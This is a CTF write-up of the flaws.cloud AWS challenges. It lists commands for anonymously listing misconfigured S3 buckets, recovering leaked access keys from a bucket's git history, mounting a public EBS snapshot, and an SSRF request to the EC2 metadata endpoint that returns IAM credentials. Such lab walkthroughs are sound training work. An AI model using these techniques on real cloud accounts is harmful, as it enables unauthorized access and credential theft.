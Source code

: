 +++
title = "flaws.cloud Writeup"
date = 2018-08-08T00:41:06+01:00
draft = false
author = "Rob W"
description = "Steps and commands used to solve the [flaws.cloud](http://flaws.cloud) challenges."
+++

In this post I have inserted the commands and some information used to complete the flaws.cloud challenges.
<!--more-->

## Level1
Find the region of s3 bucket:

```
dig +nocmd flaws.cloud any +multiline +noall +answer
flaws.cloud.		600 IN NS ns-1061.awsdns-04.org.
flaws.cloud.		600 IN NS ns-1890.awsdns-44.co.uk.
flaws.cloud.		600 IN NS ns-448.awsdns-56.com.
flaws.cloud.		600 IN NS ns-966.awsdns-56.net.
flaws.cloud.		600 IN SOA ns-1890.awsdns-44.co.uk. awsdns-hostmaster.amazon.com. (
				1          ; serial
				7200       ; refresh (2 hours)
				900        ; retry (15 minutes)
				1209600    ; expire (2 weeks)
				86400      ; minimum (1 day)
				)
flaws.cloud.		5 IN A	54.231.177.35

nslookup 52.218.240.179
179.240.218.52.in-addr.arpa	name = s3-website-us-west-2.amazonaws.com.
```

Search for readable files in the s3 bucket.

```
aws s3 ls flaws.cloud --region us-west-2 --no-sign-request

2017-03-14 03:00:38       2575 hint1.html
2017-03-03 04:05:17       1707 hint2.html
2017-03-03 04:05:11       1101 hint3.html
2018-07-10 17:47:16       3082 index.html
2018-07-10 17:47:16      15979 logo.png
2017-02-27 01:59:28         46 robots.txt
2017-02-27 01:59:30       1051 secret-dd02c7c.html
```

## Level2

Create an IAM user and configure a profile with the creds.

```
aws configure --profile pwners
AWS Access Key ID [None]: xxxxxxxxxx
AWS Secret Access Key [None]: xxxxxxxxxxx
Default region name [None]: 
Default output format [None]: 
```

Use the new profile to list the files of the level2 domain.

```
aws s3 ls --profile pwners s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/
2017-02-27 02:02:15      80751 everyone.png
2017-03-03 03:47:17       1433 hint1.html
2017-02-27 02:04:39       1035 hint2.html
2017-02-27 02:02:14       2786 index.html
2017-02-27 02:02:14         26 robots.txt
2017-02-27 02:02:15       1051 secret-e4443fc.html
```

## Level3

List the files in the bucket. It has the same issue as the previous, so you can just use your own AWS creds.

```
aws s3 ls --profile narc s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/
                           PRE .git/
2017-02-27 00:14:33     123637 authenticated_users.png
2017-02-27 00:14:34       1552 hint1.html
2017-02-27 00:14:34       1426 hint2.html
2017-02-27 00:14:35       1247 hint3.html
2017-02-27 00:14:33       1035 hint4.html
2017-02-27 02:05:16       1703 index.html
2017-02-27 00:14:33         26 robots.txt
```

Download all the files from the bucket using aws s3 sync.
```
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --profile narc
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/HEAD to .git/HEAD
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/index to .git/index
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/logs/HEAD to .git/logs/HEAD
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/robots.txt to ./robots.txt
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint2.html to ./hint2.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/index.html to ./index.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint4.html to ./hint4.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint3.html to ./hint3.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint1.html to ./hint1.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/authenticated_users.png to ./authenticated_users.png
```

We can see that there is a .git file. Let us look and see what files and changes there are.

```
git log
commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

commit f52ec03b227ea6094b04e43f475fb0126edb5a61
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:07 2017 -0600

    first commit
```

Use git checkout to get back to the original commit. We can see what stuff was accidentally left in the repo.

```
git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61
Note: checking out 'f52ec03b227ea6094b04e43f475fb0126edb5a61'.

You are in 'detached HEAD' state. You can look around, make experimental
changes and commit them, and you can discard any commits you make in this
state without impacting any branches by performing another checkout.

If you want to create a new branch to retain commits you create, you may
do so (now or later) by using -b with the checkout command again. Example:

  git checkout -b <new-branch-name>

HEAD is now at f52ec03 first commit
root@pentest-rw:~/blah# ls
access_keys.txt          hint1.html  hint3.html  index.html
authenticated_users.png  hint2.html  hint4.html  robots.txt
root@pentest-rw:~/blah# cat access_keys.txt 
access_key xxxxxxxxx
secret_access_key xxxxxxxx
```
Now use the previous method to create a new profile with the access keys. Find all available buckets now.

```
aws s3 ls --profile flaws
2017-02-12 21:31:07 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
2017-05-29 17:34:53 config-bucket-975426262029
2017-02-12 20:03:24 flaws-logs
2017-02-05 03:40:07 flaws.cloud
2017-02-24 01:54:13 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2017-02-26 18:15:44 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
2017-02-26 18:16:06 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
2017-02-26 19:44:51 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
2017-02-26 19:47:58 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
2017-02-26 20:06:32 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
```

## Level4

From this one is just a list of commands because I don't want to go through all the steps manually again right now. :)

```
aws --profile flaws sts get-caller-identity (get account id)
aws --profile flaws  ec2 describe-snapshots --owner-id 975426262029 (get snapshots)
aws --profile YOUR_ACCOUNT ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-0b49342abd1bdcb89 (create a volume by using the snapshot)
ssh -i YOUR_KEY.pem  ubuntu@your_aws_ip
lsblk
sudo mount /dev/YOUR_VOLUME/1 /mnt

Now search for shit.
```

## Level5

The only interesting bit from this level.

```
http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/
```


